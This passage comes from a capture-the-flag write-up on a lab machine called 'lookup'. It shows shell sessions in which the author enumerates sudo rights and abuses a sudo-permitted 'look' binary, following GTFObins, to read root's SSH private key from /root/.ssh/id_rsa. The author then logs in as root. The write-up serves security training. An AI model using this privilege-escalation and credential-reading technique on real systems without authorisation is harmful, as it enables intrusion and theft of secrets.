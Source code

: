 Awesome, we'll login to `think`.
```
www-data@lookup:/tmp$ su think
su think
Password: <SNIP>
whoami
think
/bin/bash -i
bash: cannot set terminal process group (714): Inappropriate ioctl for device
bash: no job control in this shell
think@lookup:/tmp$
```

We'll then `sudo -l` to get a list of binaries that are executable by `think`.
```
think@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ sudo -S -l
sudo -S -l
[sudo] password for think: <SNIP>
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Checking out [GTFObins](https://gtfobins.github.io/gtfobins/look/):
> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
>
>     LFILE=file_to_read
>     sudo look '' "$LFILE"

Knowing that SSH is enabled on this box, we'll see if we can extract a private key from `root`.
```
think@lookup:/tmp$ LFILE=/root/.ssh/id_rsa
LFILE=/root/.ssh/id_rsa
think@lookup:/tmp$ sudo -S look '' "$LFILE" | tee /tmp/id_rsa
sudo -S look '' "$LFILE"
[sudo] password for think: <SNIP>
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

---

# Root

We'll download this from the Meterpreter session.
```
averie@raspberrypi:~/Documents/thm/lookup $ sudo ssh RHOST -i id_rsa
The authenticity of host 'RHOST (RHOST)' can't be established.
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'RHOST' (ED25519) to the list of known hosts.

...

Last login: Mon May 13 10:00:24 2024 from 192.168.14.1
root@lookup:~#
```
